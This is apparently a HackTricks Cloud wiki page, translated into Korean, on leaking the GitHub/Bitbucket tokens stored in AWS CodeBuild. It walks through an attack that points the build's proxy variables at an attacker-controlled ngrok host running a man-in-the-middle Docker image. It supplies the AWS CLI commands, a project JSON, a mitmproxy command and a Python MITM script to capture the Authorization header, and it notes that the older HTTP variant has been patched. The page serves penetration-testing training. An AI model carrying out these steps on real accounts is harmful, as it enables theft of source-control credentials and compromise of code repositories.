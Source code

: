 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Github/Bitbucket에 구성된 토큰 복구

먼저, 유출할 수 있는 소스 자격 증명이 구성되어 있는지 확인하십시오:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

계정에 예를 들어 Github에 대한 인증이 설정되어 있는 경우, Codebuild가 프로젝트 빌드를 실행하기 위해 **특정 도커 이미지를 사용하도록** 하여 **액세스** (**GH 토큰 또는 OAuth 토큰**)을 **유출**할 수 있습니다.

이를 위해 **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 **환경**을 변경하여 **Docker 이미지**를 설정할 수 있습니다.

사용할 수 있는 Docker 이미지는 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)입니다. 이는 **env 변수 `https_proxy`**, **`http_proxy`** 및 **`SSL_CERT_FILE`**을 설정하는 매우 기본적인 Docker 이미지입니다. 이를 통해 **`https_proxy`** 및 **`http_proxy`**에 지정된 호스트의 대부분의 트래픽을 가로챌 수 있으며, **`SSL_CERT_FILE`**에 지정된 SSL CERT를 신뢰할 수 있습니다.

1. **자신의 Docker MitM 이미지를 생성하고 업로드하기**
* 리포지토리의 지침에 따라 프록시 IP 주소를 설정하고 SSL 인증서를 설정한 후 **도커 이미지를 빌드**합니다.
* 메타데이터 엔드포인트에 대한 요청을 가로채지 않도록 **`http_proxy`를 설정하지 마십시오**.
* **`ngrok`**을 사용하여 `ngrok tcp 4444`로 프록시를 호스트에 설정할 수 있습니다.
* Docker 이미지를 빌드한 후, **공개 리포지토리**(Dockerhub, ECR...)에 **업로드**합니다.
2. **환경 설정**
* **새 Codebuild 프로젝트를 생성**하거나 기존 프로젝트의 환경을 **수정**합니다.
* 프로젝트가 **이전에 생성된 Docker 이미지를 사용하도록** 설정합니다.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **호스트에서 MitM 프록시 설정하기**

* **Github 리포지토리**에 명시된 대로 다음과 같은 것을 사용할 수 있습니다:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
사용된 **mitmproxy 버전은 9.0.1**이며, 버전 10에서는 작동하지 않을 수 있다고 보고되었습니다.
{% endhint %}

4. **빌드를 실행하고 자격 증명을 캡처합니다**

*   **Authorization** 헤더에서 토큰을 볼 수 있습니다:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

이것은 aws cli를 사용하여 다음과 같이 수행할 수도 있습니다.

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP 프로토콜을 통한~~

{% hint style="success" %}
**이 취약점은 2023년 2월 20일 주 중 어느 시점에 AWS에 의해 수정되었습니다 (금요일인 것 같습니다). 따라서 공격자는 더 이상 이를 악용할 수 없습니다 :)**
{% endhint %}

**CodeBuild에서 권한이 상승된 공격자는 구성된 Github/Bitbucket 토큰**을 유출할 수 있거나, 권한이 OAuth를 통해 구성된 경우 **코드에 접근하는 데 사용되는 임시 OAuth 토큰**을 유출할 수 있습니다.

* 공격자는 자신의 머신을 가리키는 환경 변수 **http\_proxy** 및 **https\_proxy**를 CodeBuild 프로젝트에 추가할 수 있습니다 (예: `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 그런 다음, github 레포지토리의 URL을 HTTPS 대신 HTTP를 사용하도록 변경합니다. 예: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* 그런 다음, 프록시 변수(http\_proxy 및 https\_proxy)가 가리키는 포트에서 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)의 기본 예제를 실행합니다.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 마지막으로 **Build the project**를 클릭하면 **credentials**가 mitm 포트로 **명확한 텍스트**(base64)로 **전송**됩니다:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
이제 공격자는 자신의 머신에서 토큰을 사용하여 모든 권한을 나열하고 CodeBuild 서비스를 직접 사용하는 것보다 더 쉽게 (남용)할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter**에서 **팔로우**하세요** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
